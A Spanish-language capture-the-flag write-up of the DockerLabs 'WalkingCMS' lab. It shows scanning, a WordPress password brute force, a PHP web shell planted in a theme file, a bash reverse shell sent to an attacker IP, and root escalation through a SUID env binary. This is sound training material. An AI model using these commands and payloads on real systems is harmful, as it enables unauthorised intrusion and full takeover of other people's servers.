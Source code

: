 # Máquina WalkingCMS

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 80.

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos la versión de Apache, un título, pero poca información relevante. Accedemos a la web para seguir inspeccionando:

![Pasted image 20240412122449](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a7fdac50-3ccd-43ab-9f48-48a8d310cd7b)

Se trata de la web por defecto de Apache, por lo que procederemos a realizar **fuzzing** para descubrir directorios y posibles archivos:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
________________________________________________
/icons/               (Status: 403) [Size: 275]
/wordpress/           (Status: 200) [Size: 52441]
/server-status/       (Status: 403) [Size: 275]  
```

Encontramos un directorio **wordpress**. Accedemos.

![Pasted image 20240412122740](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/556bf2c2-e6de-46d5-9bda-0c4fcebb7014)

Como efectivamente se trata de **WordPress**, utilizaremos la herramienta **wpscan** para enumerarla, para intentar encontrar posibles usuarios, directorios, plugins vulnerables, etc.

```shell
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
________________________________________________
[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

La información más importante que obtenemos del escaneo es un usuario -> **mario** Lo aprovechamos para realizar un ataque de **fuerza bruta** usando otra vez **wpscan** y el famoso diccionario de contraseñas **rockyou**.

```shell
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
________________________________________________
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                                                                                
Trying mario / badboy Time: 00:00:01 <                                                                                                                                                                          > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```

El ataque de fuerza bruta da resultado y obtenemos la contraseña de **mario** -> **love** Trataremos de encontrar el panel de login donde le podamos dar uso a estas credenciales usando de nuevo **gobuster**. En este caso haremos un escaneo por directorios y por archivos con extensiones como php o html.

```shell
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
________________________________________________
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]             
/wp-login.php         (Status: 200) [Size: 6580]                                             
/license.txt          (Status: 200) [Size: 19915]                                            
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/readme.html          (Status: 200) [Size: 7401]                                              
/wp-trackback.php     (Status: 200) [Size: 136]                                               
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42]                                                
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]
```

Accedemos en la web al directorio **/wp-admin**:

![Pasted image 20240412123821](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9f71fbb1-ac16-4fb2-a8df-cb29a1d3ea20)

***

## Explotación

Probamos las credenciales en el panel de login: Logramos acceder como el usuario mario que es **administrador**. Una vez dentro con sesión de administrador, una forma de lograr ejecución remota de comandos sobre la máquina -> (**RCE**), es editar alguno de los temas, en este caso se está usando el Twenty Twenty-Two en la página principal. Nos dirigimos a alguno de los recursos que tiene y editaremos por ejemplo el **index.php**

![Pasted image 20240412125523](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a489b0b4-5d3b-4980-89ff-93082e6b53f3)

Borraremos este código y pondremos el nuestro propio, que al ser interpretado nos permita enviar valores con los comandos que queremos ejecutar a través del método **GET**, y a través del parámetro **cmd**:

```php
<?php
	system($_GET['cmd']);
?>
```

Nos dirigimos a la ruta donde podremos encontrar los **temas** por defecto en wordpress, dentro de la ruta de nuestro tema que es el Twenty Twenty-Two hemos modificado el index.php. Así que cargamos la siguiente URL pasándole un valor al parámetro **cmd** que hemos definido:

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=id
```

Comprobamos que se ejecuta de forma correcta y hemos logrado el **RCE**.

![Pasted image 20240412125845](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f15be9cf-af40-4e2c-88e8-20904b54d17e)

A continuación nos enviamos la **Reverse shell** a nuestra máquina atacante, poniéndonos antes en escucha por el puerto 443 con netcat:

```shell
nc -nlvp 443
```

(Es posible que para escuchar con netcat por el puerto 443 necesites ser el usuario root)

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.39/443 0>%261"
```

Los **"%26"** corresponden al símbolo **"&"** de forma URL-encodeada para que no den conflicto.

Hemos ganado acceso a la máquina:

![Pasted image 20240412135523](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/3552ef3d-715a-41d9-a846-bc970b5c94a8)

***

### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

En el /etc/passwd no encontramos ningún usuario **mario** al que podamos migrar con las credenciales que ya tenemos. Tampoco podemos hacer **"sudo -l**. Buscaremos por binarios con permisos **SUID** desde la raíz:

```shell
find / -perm -4000 2>/dev/null
________________________________________________
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
```

Nos llama la atención el binario **/usr/bin/env**. Si no sabemos como explotarlo (o si no sabemos si es posible abusar de él para escalar privilegios), podemos recurrir a [GTFOBins](https://gtfobins.github.io/) , y si es crítico esta página nos indicará como podemos explotarlo. En este caso es sencillo ya que con env podemos lanzarnos directamente una consola, y al ser ejecutado como el root gracias al permiso **SUID**, esta consola será lanzada con sus permisos, de forma que hemos logrado el nivel de privilegios máximo sobre la máquina !

```bash
./usr/bin/env /bin/sh -p
________________________________________________
whoami
root
```
